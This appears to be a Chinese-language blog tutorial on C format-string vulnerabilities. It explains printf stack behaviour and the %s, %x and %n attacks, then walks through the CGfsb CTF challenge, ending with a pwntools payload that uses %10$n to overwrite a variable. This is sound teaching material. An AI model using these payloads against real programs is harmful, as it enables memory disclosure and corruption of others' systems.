 ```yaml
---
layout:     post
title:      "格式化字符串漏洞"
date:       2023-09-10 00:00:00 +0800
categories: 安全
tags:       pwn format-string
summary:    "格式化字符串漏洞是由于程序未正确处理用户输入的格式化字符串，导致攻击者可以读取或写入任意内存地址。本文介绍了格式化字符串漏洞的原理、常见攻击方式，并通过实例演示如何利用该漏洞进行攻击。"
mathjax:    true
---
```


在 C 语言中，`printf` 函数的定义如下：

```c
int printf(const char *format, ...)
```

可以看到，`printf` 函数只有第一个参数是必须的，剩下都是可选的参数，编译器也不会检查参数个数是否正确。因此下面的代码也是正确的：

```c
printf("%d %d", a);
printf("%d");
```

这里我直接拿之前做的 slides 演示一下这一过程。

假设我们要运行正常的 `printf` 语句

```c
printf("a has value %d, b has value %d, c has address: %08x\n", a, b, &c);
```

程序会首先按照下图的方式把 `printf` 函数的参数压入栈中。当遇到第一个 `%d` 时，`printf` 函数内部的指针会向高地址移动，读取传入的参数：

<img src="/assets/post/images/formatstring1.svg" alt="formatstring1" />

遇到第二个 `%d` 后，会继续移动：

<img src="/assets/post/images/formatstring2.svg" alt="formatstring2" />

遇到 `%08x` 后，会继续移动：

<img src="/assets/post/images/formatstring3.svg" alt="formatstring3" />

至此，成功执行了这个函数。

那如果我少传入了一个参数呢？也就是运行

```c
printf("a has value %d, b has value %d, c has address: %08x\n", a, b);
```

此时，在遇到前两个 `%d` 时，和之前是一样的。但当读取到 `%08x` 时，指针继续向高地址移动，这时指针指向的已经不是我的参数，而是栈中的其它字节了！

<img src="/assets/post/images/formatstring4.svg" alt="formatstring4" />

`printf` 可不会去检查我传入的参数够不够、指针指向的是什么东西，它只会直接输出。这就给了我们可乘之机！

在攻击之前，我们先复习一下 `format` 中常用的占位符：

| 符号 | 含义                          | 传递方式 |
| :--: | ----------------------------- | :------: |
| `%d` | 10 进制数                     |    值    |
| `%x` | 16 进制数                     |    值    |
| `%p` | 指针地址                      |    值    |
| `%s` | 字符串                        |   引用   |
| `%n` | 到目前位置输出的字符 bytes 数 |   引用   |

下面我们考虑几种攻击形式：

- ```c
  printf ("%s%s%s%s%s%s%s%s%s");
  ```

  此时程序会把指针指向的内容作为地址读取，并到该地址读取字符串。

  然而，指针指向的内容很可能不是个地址，然后导致程序崩溃。

- ```c
  printf ("%08x %08x %08x %08x");
  ```

  这样的代码可以用于查看内存。为了更方便理解，我们考虑下面的程序：

  ```c
  int main(int argc, char *argv[])
  {
     char user_input[100];
     scanf("%s", user_input); /* getting a string from user */
     printf(user_input);      /* Vulnerable place */
     return 0;
  }
  ```

  当输入 `\x11\x45\x14\x00 %x %x %x %x %s` 时，其内存栈如图所示：

  <img src="/assets/post/images/formatstring5.svg" alt="formatstring5" />

  由于 `printf` 输出的是 `user_input`，因此 `printf` 自己的内部指针会从 `user_input` 的地址 + 1 处开始读取。而 `user_input` 的具体内容存储在地址更高的地方，我们的 4 个 `%x` 使得指针移动过了无意义的部分，最终指向了我们自己输入的 `0x11451400`，而此时的 `%s` 会直接输出地址 `0x11451400` 中的内容。
  
  当然，这里为了方便起见，我们假设 `user_iput` 的实际内容就存储在其地址 + 5 的位置，因此使用了 4 个 `%x` 来跳过无意义的部分。在实际操作中，我们需要根据实际情况来取得地址偏移。
  
  如此一来，我们可以看到内存中任意位置的内容。
  
- ```c
  printf (“114514%n", &i);
  ```

  正如前文所述，`%n` 表示的是已经输出了多少个 bytes。通过这种方法，我们可以向内存中写入任意数据。

下面，我们以攻防世界 CGfsb 为例进行实操。

扔进 ida 可以提取到

```c
puts("leave your message please:");
fgets(s, 100, stdin);
puts("your message is:");
printf(s);
if ( pwnme == 8 )
{
    puts("you pwned me, here is your flag:\n");
    system("cat flag");
}
else
{
    puts("Thank you!");
}
```

很容易看出，`printf(s)` 一句是存在漏洞的。我们的目标是将 `pwnme` 变量修改为 8。

- 我们的第一步是要确定地址偏移，也就是确定我们输入的 `s` 的内容距离 `s` 的地址存储的位置有多远。

  我们直接输入

  ```plaintext
  leave your message please:
  AAAA%08x-%08x-%08x-%08x-%08x-%08x-%08x-%08x-%08x-%08x-%08x-%08x-%08x
  your message is:
  AAAAffb7929e-f7fa55a0-00f0b5ff-ffb792ce-00000001-000000c2-616148fb-0000000a-00000000-41414141-78383025-3830252d-30252d78
  ```

  这里可以看到我们输入的 `AAAA`（即 `41414141`）偏移了 10 个 bytes。也就是说，我们要让 `printf` 的内部指针移动 10 下才能移动到我们输入的内容的位置。

- 然后确定 `pwnme` 变量的位置。我们在 ida 中可以看到，其位置为 `0x0804A068`。

- 最后可以编写 POC 了。

  ```py
  from pwn import *
  
  p = process('./pwn')
  p.recvuntil("leave your message please:\n")
  payload = p32(0x804A068) + b'a' * 0x4 + b'%10$n'
  p.sendline(payload)

  p.interactive()
  ```

  这里注意的是，我们多填充了 4 个 a，目的是为了让 `pwnme` 计算得到 8。
